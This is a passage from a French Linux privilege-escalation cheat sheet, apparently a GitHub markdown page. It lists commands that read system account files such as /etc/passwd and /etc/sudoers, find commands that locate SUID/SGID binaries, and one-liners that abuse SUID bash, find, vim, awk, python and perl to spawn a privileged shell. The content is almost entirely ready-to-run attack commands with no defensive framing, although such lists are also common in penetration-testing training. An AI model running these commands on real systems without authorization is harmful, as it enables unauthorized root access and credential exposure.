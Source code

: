 ### Utilisateurs et groupes
```bash
# Utilisateurs système
cat /etc/passwd                # Tous les utilisateurs
cat /etc/group                 # Tous les groupes
w                              # Utilisateurs connectés
last                           # Dernières connexions
cat /etc/sudoers               # Configuration sudo (si lisible)
```

## 🔑 Binaires SUID/SGID

### Recherche de binaires SUID
```bash
# Binaires SUID (s'exécutent avec droits propriétaire)
find / -perm -4000 -type f 2>/dev/null
find / -perm -u=s -type f 2>/dev/null

# Binaires SGID (s'exécutent avec droits groupe)
find / -perm -2000 -type f 2>/dev/null
find / -perm -g=s -type f 2>/dev/null

# Combinaison SUID et SGID
find / -perm -6000 -type f 2>/dev/null
```

### Exploitation de binaires SUID courants
```bash
# /bin/bash ou /bin/sh avec SUID
/bin/bash -p                   # Garde les privilèges
/bin/sh -p

# find avec SUID
find /etc/passwd -exec /bin/bash -p \;
find . -exec /bin/bash -p \; -quit

# vim/nano avec SUID
vim -c ':!/bin/bash'
vim -c ':set shell=/bin/bash' -c ':shell'

# awk avec SUID
awk 'BEGIN {system("/bin/bash -p")}'

# python avec SUID
python -c 'import os; os.system("/bin/bash -p")'
python -c 'import pty; pty.spawn("/bin/bash")'

# perl avec SUID
perl -e 'exec "/bin/bash";'
```
